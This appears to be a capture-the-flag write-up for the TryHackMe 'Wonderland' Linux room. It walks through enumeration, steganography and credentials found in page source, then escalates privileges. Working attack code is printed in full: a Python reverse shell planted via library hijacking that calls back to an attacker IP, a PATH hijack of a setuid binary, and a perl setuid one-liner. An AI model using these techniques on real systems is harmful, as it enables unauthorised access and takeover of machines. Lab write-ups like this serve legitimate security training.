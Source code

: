 # TryHackMe - Wonderland - Linux

## Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/31%OT=22%CT=1%CU=39160%PV=Y%DS=4%DC=I%G=Y%TM=6245C38
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 729.87 seconds
```

## Port 80

- Let's run Gobuster
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.229.155/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.229.155/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/31 11:22:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
                                                         
===============================================================
2022/03/31 11:31:29 Finished
===============================================================
```
- On /poem we have The Jabberwocky poem  
![image](https://user-images.githubusercontent.com/96747355/161145799-79de6b1d-0d51-417c-94bd-9538e36b8b73.png)  
- On /r we have nothing interesting
- On /img there are some images
- Let's modify our /etc/hosts and add this `10.10.95.114 wonderland`
- Now we can use gobuster for subdomain enumeration as well (it does not five anything but it was worth a try)
- Let's have a closer look to the images.
- First lets take the rabbit one As it is written pretty much everywhere to follow the white rabbit.
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# steghide --info white_rabbit_1.jpg         
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
- It asks for a passphrase but there is no need to enter anything you can just type enter.
- And we can see that a hint is embeded in the image, lets extract it ` steghide --extract -sf white_rabbit_1.jpg`sf will specify it is a stego file.
- Here is the hint
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# cat hint.txt     
follow the r a b b i t                                                                                                                                                                                                               
```
In our gobuster there was an r directory. So this probably means that `r a b b i t` is a path that we need to **follow** 
- Indeed at each page we get the follow up fo the story `http://wonderland/r/a/b/b/i/t/`  
![image](https://user-images.githubusercontent.com/96747355/161146081-674e96f8-0d60-42e5-8a5c-e9511e534a20.png)  
- If we look at the code of the last page we get what seems to be user:pass:
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
- Let's try those on the ssh. It works:
```
alice@wonderland:~$ 
```
- If we check the hint for the user.txt it says everything is upside down so I tried to find a file called `txt.resu` but it was not it, then I realized as we have the root.txt in alice's folder maybe the user.txt is in a the root so I tried a `cat /root/user.txt` 
- And it worked!
- Let's try to become root

## Privilege Escalation

- If we sudo -l using alice password, we get htis
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- If we l0ok at the python script it seems to show 10 of any sentence of the poem randomly
```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
- Having the right to this specific file means that this the way to privesc.
- It seems like we could hijack the python library. I found [this really interesintg article that explains it pretty well](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- So our walrus script uses the library random.py. I modified it like this to get a reverse shell and I launched it as the user rabbit this way: `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.22.56",8888)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```
- And it works we have a shell as rabbit:  
![image](https://user-images.githubusercontent.com/96747355/161157090-1444f291-a4e1-4efc-8373-2706cd00e399.png)  
- With a shell as rabbit we can now have a look at their home folder and we can see this file called teaParty. If we use file on it we get this result:
```
file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
If we launch it it ends with a segfault
```
Probably by Thu, 31 Mar 2022 23:15:41 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

- Let's take a look at it from our attacking machine as we do not have a the strings function in the target machine
- we can serve it using http server of python as it is installed in the machine `python3.6 -m http.server 8888`
- And we take it using wget  
![image](https://user-images.githubusercontent.com/96747355/161159311-d81208ba-f7c3-4003-88fc-6d4bf0fb104d.png)  
- When we look at it with strings we see this line:
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```
- So date is invoked without using the full path, we could certainly abuse this by putting a file called date and make it do something for us.
- Let's just make it run bash using `/bin/bash`  
![image](https://user-images.githubusercontent.com/96747355/161160256-614b80cc-961a-4eaa-ac3d-bfedf16a90bf.png)  
- Now we serve it from our attacking machine with python and get it in our target
- We have to make it executable with `chmod +x`
- And we need to export rabbit's home as our path 
```
export PATH=/home/rabbit:$PATH
echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

- And now we can run our binary! And it works  
![image](https://user-images.githubusercontent.com/96747355/161160721-3ceaafc0-f471-4c8a-a62e-30df37f6233c.png)  
- We are the mad hatter!! If we go to his home directory we get his password `WhyIsARavenLikeAWritingDesk?` so we can connect as him using ssh:  
![image](https://user-images.githubusercontent.com/96747355/161160960-8886a779-8272-462f-b804-15015a358b5c.png)  

- There are no specific file that caught our attention and sudo -l does not list anything so let's get linepeas and check out what we could do.
- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64` we run this in our attacking machine
- We serve it using python server `python3 -m http.server 80`
- We dowload it in our target `wget http://10.13.22.56/linpeas_linux_amd64`
- add it execution right with `chmod +x` and run it ./linpeas_linux_amd64
- We have a 95% PE vector:  
![image](https://user-images.githubusercontent.com/96747355/161161958-102231a7-45a4-4127-85ad-5d2851eef10f.png)  
- [This article](https://gtfobins.github.io/gtfobins/perl/#capabilities) shows us a way to abuse this I slightly modified the command to use bash instead of sh `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'` and it works!  
![image](https://user-images.githubusercontent.com/96747355/161162600-29d8758f-f86a-44b6-a5ee-a591236ba6bb.png)  
- We are root and can read our last flag on alice's home!
